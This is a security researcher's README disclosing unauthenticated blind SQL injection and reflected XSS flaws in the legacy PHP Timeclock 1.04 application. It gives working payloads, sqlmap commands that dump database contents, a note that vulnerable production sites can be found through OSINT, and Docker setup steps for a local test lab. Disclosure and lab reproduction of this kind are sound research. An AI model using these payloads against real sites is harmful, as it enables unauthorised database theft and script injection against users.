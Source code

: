 # PHP Timelock 1.04 SQLi and XSS Vulnerabilities 

![](img/reflective-xss.png)


> This repository contains details on several vulnerabilities I found in the [PHP TimeClock](http://timeclock.sourceforge.net/) application. PHP Timeclock is a legacy php application created in 2006 and maintained up until 2013. Unfortunately, several production sites still use the application, and can be identified with basic OSINT. The vulnerabilities include, 
> 1) Unauthenticated Time and Boolean Based SQL Injection (SQLI)
> 2) Unauthenticated Reflected Cross Site Scripting (XSS)
> 3) Authenticated Reflected Cross Site Scripting (XSS)  



**Index**
- [PHP Timelock 1.04 SQLi and XSS Vulnerabilities](#php-timelock-104-sqli-and-xss-vulnerabilities)
  - [Indentified Vulnerabilities](#indentified-vulnerabilities)
    - [PHP Timeclock 1.04 Time and Boolean Based Blind SQL Injection](#php-timeclock-104-time-and-boolean-based-blind-sql-injection)
    - [PHP Timeclock 1.04 Multiple Unauthenticated Reflected Cross Site Scripting (XSS)](#php-timeclock-104-multiple-unauthenticated-reflected-cross-site-scripting-xss)
  - [Local Testing](#local-testing)
  - [Remote Testing](#remote-testing)

## Indentified Vulnerabilities 

### PHP Timeclock 1.04 Time and Boolean Based Blind SQL Injection  

![](img/sqli.png)


Description: PHP Timeclock is vulnerable to both Boolean and Time Based SQL Injection on login.php via the login_userid parameter. This PoC shows how SQLmap can be used to exploit this vulnerability to dump database contents

Boolean Based Payload: user' RLIKE (SELECT (CASE WHEN (8535=8535) THEN 0x75736572 ELSE 0x28 END))-- QwMo&login_password=pass
Time Based Payload: user' AND (SELECT 4247 FROM (SELECT(SLEEP(5)))ztHm) AND 'WHmv'='WHmv&login_password=pass


Steps to reproduce:
  1. Run sqlmap against a instance of PHP Timeclock
  2. Follow the instructions below for specific versions of MySQL


MySQL >= 5.0.12: 
```
$ sqlmap -u http://localhost/login.php --method POST --data "login_userid=user&login_password=pass" -p login_userid --not-string="Warning" --dbms=MySQL --technique=TB --current-db
---
Parameter: login_userid (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: login_userid=user' AND (SELECT 4247 FROM (SELECT(SLEEP(5)))ztHm) AND 'WHmv'='WHmv&login_password=pass
---
```

MySQL < 5: On versions using MySQL < 5, table names must be included as arguments as information_schema was not introduced into MySQL yet.

```
$ sqlmap -u http://localhost/login.php --method POST --data "login_userid=user&login_password=pass" -p login_userid --not-string="Warning" --technique=B -D timeclock -T employees, -C empfullname --dump --dbms=MySQL -v 
---
Parameter: login_userid (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: login_userid=user' RLIKE (SELECT (CASE WHEN (8535=8535) THEN 0x75736572 ELSE 0x28 END))-- QwMo&login_password=pass
---

```  

### PHP Timeclock 1.04 Multiple Unauthenticated Reflected Cross Site Scripting (XSS)


Description: PHP Timeclock version 1.04 (and prior) suffers from multiple Unauthenticated Reflected Cross-Site Scripting Vulnerabilities. Arbitrary javascript can be injected into the application by appending a termination /'> and payload directly to the end of the GET request URL. The vulnerable paths include (1) /login.php  (2) /timeclock.php (3) /reports/audit.php and (4) /reports/timerpt.php. 


Payload: /'><svg/onload=alert`xss`>

Example: http://target/login.php/'%3E%3Csvg/onload=alert%60xss%60%3E

![](img/reflective-xss.png)

Steps to reproduce:
  1. Navigate to a site that uses PHP Timeclock 1.04 or earlier
  2. Make a GET request to one of the four resources mentioned above
  3. Append /'> and the payload to the end of the request
  4. Submit the request and observe payload execution
## Local Testing 

This repository was my attempt at dockerizing the 2006-2013 [PHP TimeClock](http://timeclock.sourceforge.net/) application. It uses an adapted version of [rodvlopes/php4-mysql4-apache2.2-docker](https://github.com/rodvlopes/php4-mysql4-apache2.2-docker) to manage setting up legacy versions of php,mysql, and apache which are required in php timeclock due to several deprecated functions. 


It was a bit of a pain to create a test environment for PHP Timeclock due to the fact it requires legacy version of PHP and MySQL. To get version 1.04 up and running without modifying source code, the application requires MySQL 4 and PHP 4. To accomondate this, I created this docker container based on [rodvlopes/php4-mysql4-apache2.2-docker](https://github.com/rodvlopes/php4-mysql4-apache2.2-docker). 

1) Clone the repo  

 `git clone https://github.com/tcbutler320/php-timeclock-docker`

2) cd into the docker folder 

`cd php-timeclock-docker/docker`

3) build docker image 

`docker build -f Dockerfile.ubuntu -t timeclock .`

4) Run the image 

`docker run -d --name timeclock --restart=always -p 80:80 -v ./data:/usr/local/mysql/var -v ./timeclock-1.04:/usr/local/apache2/htdocs timeclock`

5) Drop into the container with bash  

`sudo docker exec -it timeclock /bin/bash  ` 

6) open a mysql shell 

`mysql -u root -p`, using password IAmroot

7) create the timeclock database 

`create database timeclock;`

8)  exit the mysql shell
   
9)  populate the database with the sql file 

`mysql -u root -p timeclock < /usr/local/apache2/htdocs/create_tables.sql`

## Remote Testing   

Upon request I will open a remote server for testing, drop me message on twitter @tbutler0x90
